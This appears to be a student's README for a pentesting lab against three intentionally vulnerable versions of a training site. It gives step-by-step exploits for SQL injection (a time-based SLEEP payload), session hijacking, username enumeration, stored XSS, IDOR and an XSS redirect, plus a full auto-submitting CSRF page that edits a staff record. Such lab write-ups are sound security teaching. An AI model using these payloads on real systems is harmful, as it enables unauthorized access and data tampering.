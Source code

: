 # Project 8 - Pentesting Live Targets

Time spent: **5** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection
* View a any salesperson's profile
* The end of the url should be ```id=someInteger```
* Replace the integer with ```' OR SLEEP(10)=0--'``` and press enter
* The webpage should reload after 10 seconds

- [ ] GIF Walkthrough: ![](https://i.imgur.com/PlGJagH.gif)

Vulnerability #2: Session Hijacking
* Use two browsers: Chrome (target) and Firefox (attacker)
* Login to the target and navigate to ```public/hacktools/change_session_id.php``` to get the session ID
* Attacker navigate to ```public/hacktools/change_session_id.php``` and change the session ID to the target's session ID
* Attacker should be able to login without entering a username and password

- [ ] GIF Walkthrough: ![](https://i.imgur.com/MJgbz9K.gif)


## Green

Vulnerability #1: Username Enumeration
* Note that ```pperson``` and ```jmonroe99``` are both valid usernames
* Trying to login using a valid username and invalid password will result in a bolded error message
* However trying to login with an invalid username and password will result in a non-bolded error message
- [ ] GIF Walkthrough: ![](https://i.imgur.com/BqJcyXR.gif)

Vulnerability #2: Cross-Site Scripting
* In the Contact section you can add an alert script
* This alert will be triggered when a logged-in user visits the feedback section
- [ ] GIF Walkthrough: ![](https://i.imgur.com/esx4HyK.gif)


## Red

Vulnerability #1: Insecure Direct Object Reference
* View any salesperson's profile (do not log in)
* You can view hidden profiles by changing the ID value at the end of the URL
* Specifically salespeople with IDs 10 and 11 should not be accessible to those not logged in
* When the ID value is modified to 10 or 11 in the green and blue websites, the site redirects to the territories.php page corresponding to the heading "Find a Salesperson"
- [ ] GIF Walkthrough: ![](https://i.imgur.com/dOBXRlO.gif)

Vulnerability #2: Cross-Site Request Forgery
* Submit a link to the following malicious webpage in the Contact section
```
<html>
  <head>
    <title>Feedback</title>
  </head>
  <body onload="document.CSRF.submit()">
	<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=4" method="post" style="display: none;" name='CSRF' target="res">
	    <input type="text" name="first_name" value="No Longer Robert" />
      	<input type="text" name="last_name" value="HACKED" />
      	<input type="text" name="phone" value="123-456-789" />
      	<input type="text" name="email" value="who@HACKED.com" />
	</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>
```
* This page will silently submit a form to edit the information of salesperson Robert Hamilton
* This form submission will only occur when a logged-in user views the feedback section and navigates to the link provided
- [ ] GIF Walkthrough: ![](https://i.imgur.com/6sB7IlD.gif)


## Bonus Objective

Vulnerability: Build on cross-site scripting to dedirect the user to a new URL
* This exploit uses the same Cross-Site Scriping idea shown above but instead of showing an alert popup it will redirect the user to a new webpage
* The redirection is achieved by using ```window.location.assign("url")```
- [ ] GIF Walkthrough: ![](https://i.imgur.com/NMNsFw7.gif)


## Notes

